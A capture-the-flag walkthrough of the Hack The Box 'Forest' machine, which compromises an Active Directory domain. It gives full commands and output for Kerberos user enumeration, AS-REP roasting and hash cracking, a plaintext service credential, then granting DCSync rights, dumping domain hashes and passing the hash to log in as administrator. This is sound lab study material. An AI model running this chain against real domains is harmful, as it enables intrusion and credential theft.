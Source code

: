 ## Info
### Credential
 User       | Password | Service | Note
------------|----------|---------|------
svc-alfresco|s3rvice   |         |

## Path
### User
1. Found some valid usernames using `enum4linux` and `kerbrute`.
```
$ kerbrute_linux_amd64 userenum --dc forest.htb.local -d htb.local user.lst 
2021/07/28 18:41:36 >  [+] VALID USERNAME:       Administrator@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       HealthMailbox968e74d@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       HealthMailboxfc9daad@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       HealthMailbox670628e@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       HealthMailboxb01ac64@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       HealthMailbox83d6781@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       lucinda@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       HealthMailboxc3d7722@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       HealthMailboxc0a90c9@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       HealthMailbox0659cc1@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       HealthMailbox6ded678@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       sebastien@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       mark@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       andy@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       santi@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       HealthMailboxfd87238@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       HealthMailbox7108a4e@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       conda@htb.local
2021/07/28 18:41:37 >  [+] VALID USERNAME:       svc-alfresco@htb.local
2021/07/28 18:41:37 >  Done! Tested 32 usernames (19 valid) in 0.909 seconds
```
2. Do AS-REP roast and found the credential of user `svc-alfresco`.
```
$ cme ldap $ip --asreproast asrep.out -u user.lst -p '' 
LDAP        10.10.10.161    389    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:799e03f7d0300ff6f4ffe7b2b82972c2$aa4c5006fd923ff02eb77c03c83a93676140fddfc2324c324c133295598167ddb798d5378150e61603a2c355f4e8fadf5980bd990e1195ebccb499fd03100e2b51cdcf7377c0802263fea4a8e0f4b7579dfbb573f02a7ade73a332a482a8baf8b6c10af256d30e64efc238deafecfd503f1c4846a8708e12b2ba767f892b869d8b2768354e4ba0d6beb65d308f57e15cd95b5848368c47681ef026c2ec7b2f4613d84b5c0bc02db39b6edd1bc926934fa79aa7dbefde715c1780f743103e9e79406bc7db56756afd866be32d9d5732d191792f10d59125df335419a7f5e2ac9ae1558ed50ef7
$ hashcat -m 18200 asrep.out --force /path/to/rockyou.txt
```
3. We can list the shares with `svc-alfresco`'s credential.
```
$ smbclient -U svc-alfresco -L $ip
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```
3. Run `evil-winrm` with the credential and get the user flag.
```
$ evil-winrm -i $ip -u svc-alfresco -p s3rvice
*Evil-WinRM* PS C:\Users\svc-alfresco> type Desktop/user.txt
```
### Root (follow [Ippsec - forest]())
1. The user `svc-alfresco` can read `ntds.dit`, but not `SYSTEM` or `SAM`.
2. Run `BloodHound`.
3. Found `svc-alfresco` is in the group `Account Operators` and `Exchange Windows Permissions`, so we can create a user and add it to `Exchange Windows Permissions` group.
```
> net user ice ice1187 /add /domain
> net group "Exchange Windows Permissions" /add ice
```
4. Since the group `Exchange Windows Permissions` has the permission to modify the Directory ACL on the domain `htb.local`, we can use it to add the `DCsync` right to the user, then exploit it.
```
$SecPassword = ConvertTo-SecureString 'ice1187' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\ice', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity ice -Rights DCSync
```
5. The user added has `DCsync` permission on the domain, we can dump the hashes, then login as admin.
```
$ secretsdump.py htb.local/ice:ice1187@$ip
$ psexec.py htb.local\administrator@$ip -hashes <lmhash:nthash>
```



